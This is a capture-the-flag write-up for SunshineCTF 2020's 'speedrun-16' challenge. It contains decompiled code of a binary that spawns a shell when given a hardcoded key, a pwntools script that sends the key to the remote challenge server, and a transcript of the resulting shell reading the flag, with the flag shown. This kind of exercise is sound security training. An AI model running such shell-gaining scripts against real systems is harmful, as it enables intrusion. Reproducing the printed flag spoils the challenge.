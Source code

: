 # **speedrun-16**
## Task
nc chal.2020.sunshinectf.org 30016
File: chall_16
Tag: binary exploitation 

## Solution

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
* No defect found 
* System 64 bit

### Decompile with ghidra
```c
void main(void)
{
  size_t sVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  int local_60;
  char local_58 [56];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  fgets(local_58,0x31,stdin);
  sVar1 = strlen(local_58);
  sVar2 = strlen(key);
  if (sVar1 == sVar2) {
    local_60 = 0;
    while( true ) {
      sVar1 = strlen(key);
      if (sVar1 <= (ulong)(long)local_60) break;
      if (local_58[local_60] != key[local_60]) {
                    /* WARNING: Subroutine does not return */
        exit(0);
      }
      local_60 = local_60 + 1;
    }
    system("/bin/sh");
  }
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
This is similiar with RE challange than pwn. Just read the program.

The program compare `local_58` with `key`. So just send payload with key to the server to get the flag.
### Exploit
```python
from pwn import *

binary = context.binary = ELF('./chall_16')
p = remote('chal.2020.sunshinectf.org',30016)
p.sendline(binary.string(binary.sym.key))
p.interactive()
```
### Output
```bash
[*] '/home/kali/speedrun_sunshineCTF2020/chall_16'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.2020.sunshinectf.org on port 30016: Done
[*] Switching to interactive mode
$ ls
chall_16
flag.txt
$ cat flag.txt
sun{beast-and-the-harlot-73058b6d2812c771}
```
